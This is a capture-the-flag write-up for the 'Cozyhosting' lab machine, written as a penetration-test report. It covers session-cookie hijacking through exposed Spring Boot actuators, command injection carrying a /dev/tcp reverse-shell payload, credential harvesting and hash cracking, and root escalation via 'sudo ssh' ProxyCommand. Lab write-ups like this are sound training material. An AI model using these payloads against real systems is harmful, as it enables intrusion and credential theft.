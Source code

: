 # Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb``` 
 
![image](images/Cozyhosting/Imagen2.png)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 
![image](images/Cozyhosting/Imagen3.png)

First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
![image](images/Cozyhosting/Imagen4.png)

The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
![image](images/Cozyhosting/Imagen5.png)

Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 
![image](images/Cozyhosting/Imagen6.png)

As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 
![image](images/Cozyhosting/Imagen7.png)

Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
![image](images/Cozyhosting/Imagen8.png)
 
![image](images/Cozyhosting/Imagen9.png)

Once the cookie is set, it is possible to access the Admin Dashboard.  

![image](images/Cozyhosting/Imagen10.png)

Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 
![image](images/Cozyhosting/Imagen11.png)

Inserting two random values as ```hostname=localhost``` and ```username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 
![image](images/Cozyhosting/Imagen12.png)
 
![image](images/Cozyhosting/Imagen13.png)

The way the errors are thrown are suspicious as it seems to be the output of a shell command. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost```and ```username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 
![image](images/Cozyhosting/Imagen14.png)
 
![image](images/Cozyhosting/Imagen15.png)

The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 
![image](images/Cozyhosting/Imagen16.png)

After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
![image](images/Cozyhosting/Imagen17.png)
 
![image](images/Cozyhosting/Imagen18.png)

## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function ```/executessh``` where it is possible to inject commands to open a reverse shell.

**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on ```/executessh``` function.

**Severity**: Critical

**Steps to reproduce the attack**: 

•	Access ```/actuator/sessions``` and grab session cookie for user ```kanderson```.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert

   - Hostname parameter ```localhost```
   - Username parameter ```kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a```
 
![image](images/Cozyhosting/Imagen19.png)

•	Insert “exec >&0” on the recently opened shell.
 
![image](images/Cozyhosting/Imagen20.png)

## Post Exploitation.

After gaining initial access, a very interesting file is  found called ```cloudhosting-0.0.1.jar```
 
![image](images/Cozyhosting/Imagen21.png)

After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called ```application.properties```.
 
![image](images/Cozyhosting/Imagen22.png)

This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 
![image](images/Cozyhosting/Imagen23.png)

More credentials are found inside “Users” table.
 
![image](images/Cozyhosting/Imagen24.png)

Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
![image](images/Cozyhosting/Imagen25.png)

Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
![image](images/Cozyhosting/Imagen26.png)

## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.

**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.

**Severity**: Critical

**Steps to reproduce the attack**: execute ```sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x```

**Screenshot**:
 
![image](images/Cozyhosting/Imagen27.png)

## Post-Exploitation

System Proof Screenshot:

![image](images/Cozyhosting/Imagen28.png)

